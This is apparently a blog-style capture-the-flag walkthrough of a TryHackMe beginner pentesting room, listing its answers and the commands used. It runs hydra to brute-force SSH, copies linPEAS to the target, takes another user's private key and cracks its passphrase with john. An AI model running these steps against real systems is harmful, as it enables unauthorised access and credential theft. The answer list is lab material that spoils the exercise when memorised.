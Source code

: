 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [CTF, thm, easy, nmap]
---
```

# Task 1 Web App Testing and Privilege Escalation
In these set of tasks you'll learn the following:
 - brute forcing
 - hash cracking
 - service enumeration
 - Linux Enumeration

## Questions:
1. What is the name of the hidden directory on the web server(enter name without /)?
```
development
```
2. What is the username?
```
jan
```
3. What is the password?
```
armando
```
4. What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```
5. What is the name of the other user you found(all lower case)?
```
kay
```
6. What is the final password you obtain
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
## MyWalk:
Beginning with an nmap scan, and save the results on nmap/initial for future reference:
```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46

```
Now I'll enumerate any directories available:
```bash
gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```
<span style="color:green;">Q1 done</span>
http://10.10.40.46/development give us 2 files referencing development messages between two users.
Lets use enum4linux:
```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log
```
Users 'kay' and 'jan' found.
<span style="color:green;">Q2 & Q5 done</span>
Now I try to get the 'jan' password using brute force, and get answer to Q3:
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4
```
jan:armando <span style="color:green;">Q3 done</span>
Now I'll try to login with shh credentials:
```bash
ssh jan@10.10.40.46
```
After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:
```bash
jan@basic2:~$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 23 2018 .
drwxr-xr-x 4 root root 4096 Apr 19 2018 ..
-rw------- 1 root jan 47 Apr 23 2018 .lesshst
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied
jan@basic2:~$ cat /etc/passd
cat: /etc/passd: No such file or directory
jan@basic2:~$ sudo -l
[sudo] password for jan:
Sorry, user jan may not run sudo on basic2.
jan@basic2:~$ cd ..
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cat .viminfo
cat: .viminfo: Permission denied
```
Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:
```bash
scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm
```
Checking the target:
```bash
jan@basic2:~$ cd /dev/shm
jan@basic2:/dev/shm$ ls
linpeas.sh
```
Run it (on target):
```bash
./linpeas.sh | tee linlog.txt
```
Found a id_rsa key. Past it in a file using nano and mark it as read only by us.
Now lets connect with the key of 'kay' user:
```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa
After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.
First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:
```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```
Now run john with the key against the rockyou.txt:
```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
we can see the paraphrase is 'beeswax'
Lets try to login again as kay:
```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
Entering the paraphrase password 'beeswax' and success!
Now is possible to read the pass.bak file and <span style="color:green;">Q6 done</span>
---
#### Tools:
- nmap
- gobuster
- enum4linux
- hydra
- linPEAS
- johntheripper